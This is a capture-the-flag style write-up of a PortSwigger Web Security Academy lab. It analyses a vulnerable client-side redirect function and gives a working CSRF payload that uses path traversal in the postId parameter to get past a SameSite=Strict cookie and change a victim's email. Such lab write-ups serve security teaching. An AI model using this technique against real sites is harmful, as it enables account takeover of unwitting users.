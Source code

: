 # [Lab: SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

## Lab

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

session cookie: samesite=strict.

request:

```http
GET /post/comment/confirmation?postId=3 HTTP/1.1
```

response:

```js
<script>redirectOnConfirmation('/post');</script>
```

content of js function:

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

## Solutions

use tthe redirect function to bypass samesite=strict to csrf:

```html
<script>
document.location = "https://id.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=hacked@gmail.com%26submit=1";
</script>
```

we need to encode `&` once to `%26`.
